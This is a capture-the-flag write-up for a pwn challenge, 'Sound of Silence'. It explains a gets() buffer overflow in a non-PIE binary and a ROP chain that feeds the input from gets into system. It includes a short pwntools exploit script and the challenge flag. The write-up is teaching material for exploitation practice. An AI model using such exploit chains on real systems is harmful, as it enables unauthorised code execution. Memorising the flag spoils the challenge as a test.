 ```yaml
---
linkTitle: Sound of Silence
title: Pwn - Sound of Silence
type: docs
---
```


* Difficulty : Medium
* Description : Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!  
* Challenge Files : [](pwn_sound_of_silence.zip)

## Initial Recon 

As you run the binary, it clears the shell and asks for some input, thats it 
```
~The Sound of Silence is mesmerising~

>> some input 
``` 
And these are the protections of the binary : 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
``` 
* No `canary` and no `PIE`, definitely some overflow involved
## Reversing 

Here is the decompiled `main` function by IDA :
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  system("clear && echo -n '~The Sound of Silence is mesmerising~\n\n>> '");
  return gets(v4, argv);
}
```

* The program is simple, it clears the terminal, echos some statement and call `gets` on a buffer of 32 bytes 

## Exploit 

* Since `PIE` is disabled we can overflow and ROP to call any of the function (`gets` or `system`)
* In one of the past CTFs I used this trick of calling `gets` after ROP and passing the input to the next function in the ROP chain and this was supposed to be done 
* I'll go in more detail about this trick 

* As you return into `gets` function after buffer overflow this is the current state of the registers 

![ ](image-4.png)  


* If you look closely, the value in `rdi` register points to a writable section of libc, so if we execute `gets` in this state, the input will be stored on that address in libc 
* After the `gets` function is completed the value in `rdi` remains the same and `rip` will jump to next value on the stack 
* So if we chain the input like :

```
<junk bytes> + <address of gets> + <address of system>
```

* We will be able to call `system` function on our input 
* If you know this trick, you can solve this challenge without even debugging 

* This is how to state of the program looks after taking the input from `gets` 

![alt text](image-6.png)  

Here is the exploit script : 
```python
from pwn import * 

elf = context.binary = ELF('./sound_of_silence')

p = elf.process()

p.sendline(cyclic(40) + p64(elf.sym['gets'])  + p64(elf.sym['system']))

p.interactive()

#$ /bin0sh
```

---  

#### Flag : `HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}`








